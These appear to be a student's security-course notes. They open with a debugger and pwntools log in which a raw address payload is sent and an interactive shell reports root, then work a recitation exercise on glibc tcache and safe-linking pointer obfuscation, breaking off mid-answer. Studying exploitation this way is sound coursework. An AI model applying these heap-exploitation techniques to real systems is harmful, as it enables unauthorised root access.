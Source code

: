 ```
gef➤  c
Continuing.
[Detaching after vfork from child process 2728904]

# in other terminal
[DEBUG] Sent 0x21 bytes:
    00000000  95 87 82 84  2a 7f 00 00  1b 04 9c 84  2a 7f 00 00  │····│*···│····│*···│
    00000010  3e 6a 82 84  2a 7f 00 00  b0 52 85 84  2a 7f 00 00  │>j··│*···│·R··│*···│
    00000020  0a                                                  │·│
    00000021
[*] Switching to interactive mode
[DEBUG] Received 0x1f bytes:
    b'Detaching from process 2728904\n'
Detaching from process 2728904
$ whoami
[DEBUG] Sent 0x7 bytes:
    b'whoami\n'
[DEBUG] Received 0x5 bytes:
    b'root\n'
root
```


## Recitation

#### Recitation 9.0

Say the heap contains two pointers, `a` and `b`, as allocated and freed by the following code:

```c
a = malloc(0x20);
b = malloc(0x20);
free(a);
free(b);
```

What will tcache look like after the calls to `free`? Say a is at address `0x5678a020` (this is the addr of the memory chunk on the heap, freed, NOT the addr of the variable a). What are the linked list pointers (the raw bytes stored in the `fw` pointers) in `a` and `b`? _Keep in mind safe-linking applies!_

Singly linked list: each node contains its content + pointer to the next node's addr
- `fw` is the pointer to the next freed memory chunk on the heap
		- I was confused, thought `fw` points to the node that contains 

Solve:
Note - safe-linking obfuscates the `fw` pointer
- `a` is the last thing in the tcache linked list. So its fw pointer points to NULL (equal to 0)
	- Through safe-linking, `a`'s addr gets shifted >> 12 bits. so it becomes `0x5678a`
	- Then, we XOR this with the address of the next thing, which is 0x0. Anything XOR with 0 is just itself. 
		- Therefore, `a`'s fw pointer is 0x5678a
- `b`'s fw pointer points to node representing `a`, when we lived in a world without safe-linking. But now, fw is:
	- bit shift b's addr >> 12 (bits)
		- equivalent to getting rid of the least-sig 3 hex bits
	- XOR b's bit-shifted addr with A's
